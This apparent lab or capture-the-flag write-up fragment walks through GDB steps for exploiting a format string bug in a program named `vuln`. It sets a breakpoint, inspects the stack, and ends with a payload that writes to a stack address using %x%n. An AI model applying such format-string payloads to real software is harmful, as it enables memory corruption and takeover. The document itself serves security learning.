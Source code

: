 Set a breakpoint at the instruction located 151 bytes into the `vuln` function, allowing you to pause execution there for analysis.<img src="./img/Screenshot 2024-10-13 144915.png"></img>
```bash
run "AAAA"
```
Run the program with the input `AAAA`, testing how the program handles input and allowing you to observe its behavior at the breakpoint.
<img src="./img/Screenshot 2024-10-13 122328.png"></img>
```bash
x/20wx $esp
```
Examine the stack at the address stored in the stack pointer register (`$esp`). This shows the contents of the stack, helping identify where data has been written or overwritten.
```bash
run $(echo -e "\x1c\xd3\xff\xff")%x%n
```